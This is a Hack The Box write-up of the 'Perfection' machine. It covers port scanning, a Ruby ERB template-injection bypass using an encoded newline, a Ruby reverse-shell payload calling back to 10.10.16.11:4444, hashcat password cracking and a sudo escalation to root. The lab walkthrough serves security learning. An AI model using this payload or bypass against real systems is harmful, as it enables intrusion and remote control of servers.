






# Perfection Writeup - by Thammanant Thamtaranon  
- Perfection is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.253`  

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://10.10.11.253`  
  
- Additional interesting paths discovered include:  
  - `/weighted-grade`  
  - `/weighted-grade-calc`  

## Exploitation  
- Initial XSS attempts were blocked, so we used Burp Suite Intruder with XSS payloads from `PayloadsAllTheThings/XSS Injection/Intruders/XSSDetection.txt`.  
- An interesting response with `<%` was observed, indicating Ruby embedded code execution using `<% %>` tags.  
- Since special characters were blocked by the input validator, we bypassed it using `%0A` (URL encoded newline).  
  
  
- Testing the command `<%= `id` %>` as `%3C%25%3D%20%60id%60%20%25%3E%0A` successfully executed the `id` command.  
  
- We replaced it with a reverse shell payload:  
  `<% require 'socket';exit if fork;S=TCPSocket.new('10.10.16.11',4444);loop{S.print "$ ";IO.popen(S.gets,'r'){|io|S.puts io.read}} %>`  
  URL encoded as:  
`%3C%25%20require%20%27socket%27%3Bexit%20if%20fork%3BS%3DTCPSocket%2Enew%28%2710%2E10%2E16%2E11%27%2C4444%29%3Bloop%7BS%2Eprint%20%22%24%20%22%3BIO%2Epopen%28S%2Egets%2C%27r%27%29%7B%7Cio%7CS%2Eputs%20io%2Eread%7D%7D%20%25%3E`  
- We successfully obtained a shell as user `susan`, who is in the sudo group.  
  
- We captured the **user flag**.

## Privilege Escalation  
- Credentials were found in `pupilpath_credentials.db` but were initially uncrackable.  
- Inspecting susan’s emails revealed hints to crack the password.  
  
- We used Hashcat with the command:  
  `hashcat -m 1400 -a 3 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d --increment`  
  - `-m 1400`: SHA-256 hash mode  
  - `-a 3`: mask attack  
  - `--increment`: try shorter passwords first  
  - `?d`: digit placeholder (9 digits total)  
- Susan’s password was cracked successfully.  
  
- We SSH’d into the machine with susan’s credentials.  
- Running `sudo -l` showed susan can run any command as sudo.  
- We executed `sudo su` to escalate to root.  
- We captured the **root flag**.  

